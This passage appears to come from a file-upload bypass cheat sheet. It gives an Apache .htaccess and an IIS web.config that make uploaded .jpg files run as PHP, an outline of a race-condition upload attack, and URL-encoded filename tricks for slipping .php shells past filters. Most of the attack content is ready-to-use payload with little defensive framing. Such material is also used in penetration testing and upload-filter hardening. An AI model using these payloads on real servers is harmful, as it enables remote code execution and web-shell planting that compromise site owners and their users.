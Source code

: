 ### 6. Server Configuration Bypass

#### .htaccess Upload (Apache)
```
# File: .htaccess
AddType application/x-httpd-php .jpg
AddHandler php-script .jpg

# Now any .jpg file will be executed as PHP
```

#### web.config Upload (IIS)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="new_policy" path="*.jpg" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\php7.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".jpg" />
            </fileExtensions>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
```

#### Nginx Configuration Bypass
```
# If configuration allows directory listing
# Upload files to a directory and navigate to it
```

### 7. Race Condition Exploits

```
1. Upload malicious file 
2. Application performs validation check
3. Access the file before validation/cleanup processes complete
```

## Advanced Bypass Techniques

### 1. Encoding and Character Sets

#### URL Encoding
```
ma%6Cicious.php -> malicious.php
shell.p%68p -> shell.php
```
